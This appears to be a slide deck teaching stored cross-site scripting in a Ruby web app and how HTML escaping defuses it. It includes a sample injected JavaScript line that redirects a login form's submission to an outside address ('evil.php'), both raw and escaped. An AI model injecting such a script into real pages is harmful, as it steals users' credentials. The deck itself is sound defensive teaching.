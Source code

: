 Code like this

```ruby
"<div>#{ @post.body }</div>"
```

&nbsp;
&nbsp;

Will lead to malicious injection

```javascript
document.getElementById('login_form').
  action="http://208.246.24.14/evil.php"
```

```notes
So what exactly is XSS? This is an example of a 'persisted' XSS attack. Anyone who can sneak HTML in our pages can do nasty stuff.

This gives an attacker all privileges the current user of your app has.
```

---
= class='statement center'

**session hijacking**

attacker can surf the site with user credentials

---
## Escape!

The common wisdom is to "escape" the inserted value

```html
<div>#{ escape_html(@post.body) }</div>
```

&nbsp;
&nbsp;

Now the code is harmless

```html
<div>
  &lt;script&gt;document.getElementById('login_form').action=http://208.246.24.14/evil.php&lt;/script&gt;
</div>
```

```notes
So what to do? This is what you learn in Web security 101, make sure you HTML escape whatever you don't trust, and you'll be fine.
```

---
= class='haiku'
